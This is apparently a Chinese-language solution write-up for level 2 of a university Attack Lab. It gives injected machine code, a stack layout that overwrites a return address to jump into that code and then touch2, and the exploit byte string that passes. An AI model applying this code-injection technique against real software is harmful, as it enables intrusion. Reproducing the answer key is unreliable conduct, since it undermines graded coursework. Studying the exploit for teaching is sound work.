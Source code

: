 
### 生成注入代码

```bash
# cat 2.s
mov $0x59b997fa,%rdi
ret
# gcc -c 2.s
# objdump -d 2.o

2.o：     文件格式 elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   c3                      retq 
```

因此这里需要注入的代码是`48 c7 c7 fa 97 b9 59 c3`

### Solution

我们需要把栈结构改成这样：

| address    | 7    | 6    | 5    | 4    | 3    | 2    | 1    | 0    | note                         |
| ---------- | ---- | ---- | ---- | ---- | ---- | ---- | ---- | ---- | ---------------------------- |
| 0x5561dcb0 | 0    | 0    | 0    | 0    | 0    | 0x40 | 0x1f | 0x24 | 0x401f24 return main()       |
| 0x5561dca8 | '\0' | 0x00 | 0x00 | 0x00 | 0x00 | 0x40 | 0x17 | 0xec | ret touch2()                 |
| 0x5561dca0 | 0x00 | 0x00 | 0x00 | 0x00 | 055  | 0x61 | 0xdc | 0x78 | ret 0x5561dc78 (inect code!) |
| 0x5561dc98 | -    | -    | -    | -    | -    | -    | -    | -    | getbuf() stack               |
| 0x5561dc90 | -    | -    | -    | -    | -    | -    | -    | -    |                              |
| 0x5561dc88 | -    | -    | -    | -    | -    | -    | -    | -    |                              |
| 0x5561dc80 | -    | -    | -    | -    | -    | -    | -    | -    |                              |
| 0x5561dc78 | 0xc3 | 0x59 | 0xb9 | 0x97 | 0xfa | 0xc7 | 0xc7 | 0x48 | mov $0x59b997fa,%rdi; ret    |

- 0x5561dc78 是刚生成的注入代码
- 然后我们需要把0x5561dca0的返回地址改成注入代码的地址0x5561dc78
- 0x5561dca8 则改成touch2的入口0x4017ec


```bash
# cat result2 | ./hex2raw | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 C3 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 78 DC 61 55 00 00 00 00 EC 17 40 00 00 00 00 
```
